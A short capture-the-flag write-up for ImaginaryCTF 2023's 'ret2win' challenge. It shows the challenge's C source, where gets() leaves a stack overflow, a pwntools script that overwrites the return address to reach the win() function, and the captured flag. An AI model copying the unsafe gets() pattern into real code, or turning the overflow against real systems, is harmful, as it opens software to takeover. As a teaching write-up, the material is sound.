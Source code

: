 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
author: allforest01
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023imaginaryCTF]
tags: [pwn, write-ups]
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

### Attached

[ret2win.c](https://imaginaryctf.org/r/73iLJ#vuln.c), [ret2win](https://imaginaryctf.org/r/BoCID#vuln)

```sh
nc ret2win.chal.imaginaryctf.org 1337
```

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

By [allforest01](https://github.com/allforest01)

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```
